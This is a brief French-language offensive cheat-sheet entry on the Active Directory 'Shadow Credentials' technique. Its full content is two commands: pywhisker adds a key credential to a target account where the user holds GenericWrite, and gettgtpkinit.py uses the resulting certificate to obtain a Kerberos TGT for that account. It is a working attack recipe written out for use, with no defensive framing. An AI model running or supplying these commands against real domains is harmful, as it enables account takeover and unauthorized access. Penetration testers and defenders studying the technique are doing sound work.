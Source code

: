 # Shadow Credentials

Si un utilisateur possède l'ACL `GenericWrite` sur un objet :&#x20;

```
pywhisker -d <DOMAIN.LOCAL> -u <USER> -p <PASS> --target <USER-CIBLE> --action "add"

python3 gettgtpkinit.py -cert-pfx <FILE> -pfx-pass <PASS> <DOMAIN.LOCAL>/<USER-CIBLE> <OUTPUT.ccache>
```
